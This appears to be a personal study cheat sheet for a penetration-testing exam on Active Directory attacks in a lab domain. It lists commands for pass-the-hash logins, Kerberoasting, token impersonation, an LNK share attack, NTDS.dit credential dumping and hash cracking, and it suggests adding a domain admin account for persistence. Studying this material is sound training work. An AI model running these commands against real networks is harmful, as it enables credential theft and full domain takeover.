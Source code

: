 	-  ==We should always try to run the **obtained hashes on other machines** as well to gain access to **new machines** if that admin is present==
	
	- **Evil-WinRm**
		- **Login using password or hashes** IF WinRM is available
		- `evil-winrm -i <ip> -u <user> -H <NT_Hash>`
		- `evil-winrm -i <ip> -u <user> -p <password>`
	
	- **Lateral Movement**
		![[Pasted image 20250329163153.png]]

- **==Kerberoasting / ASREPRoasting==**
	- [[Kerberoasting Lab]],  [[ASREP Roasting Lab]]
	- Useful to **take advantage /gain access of a service account with an authenticated user**
	- `impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.0.1.4 -request`

- **==Token Impersonation==**
	- [[Token Impersonation Lab]]
	- [[Impersonation Privileges Overview]], [[THM - Tater, Hot Potato]]
	- [[Administrator Group To SYSTEM]]
	- Metasploit:
		- `use exploit/windows/smb/psexec`
		- `load incognito`
		- `impersonate_token marvel\\fcastle`
	- **==Delegate token gets created once it is logged in, and then we can impersonate that user==** (maybe **force login admin if possible**?)
	- **==Persistence==** once done, **add a domain admin user**

- **LNK File Attack** (Watering-hole attack) 
	- **Generate a file in a share and once a user views this share, it triggers the responder (if running)**
	- [[LNK File Attacks Lab]]
	- `netexec smb 10.0.1.10 -d marvel.local -u pparker -p Password1 -M slinky -o NAME=test SERVER=10.8.0.2` => Exposed File Shares

- **GPP Attacks AKA cPassword Attacks** (MS14-025)
	- **GPP allowed admins to create policies using embedded credentials**
	- These were placed in a **=="cPassword" file encrypted==**
	- The key was accidentally released 
		- ![[Pasted image 20250512153918.png]]

- **==Mimikatz==**
	- [[Mimikatz Lab]]
	- [[Golden Tickets Attack]]
	  
- **Old Vulnerabilities Die hard**


# Post-DOMAIN Compromise Attacks
---
[[Post-Domain Compromise Attack Strategy]]
**==Persistence is REQUIRED in the exam==** - Delete afterwards

- **==Dumping NTDS.dit==**
	- [[Dumping the NTDS.dit]]
	- `impacket-secretsdump MARVEl.local/hawkeye:'Password1@'@10.0.1.4 -just-dc-ntlm`
	- **Crack only the NT (later) part of the hash**
	- `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --show`
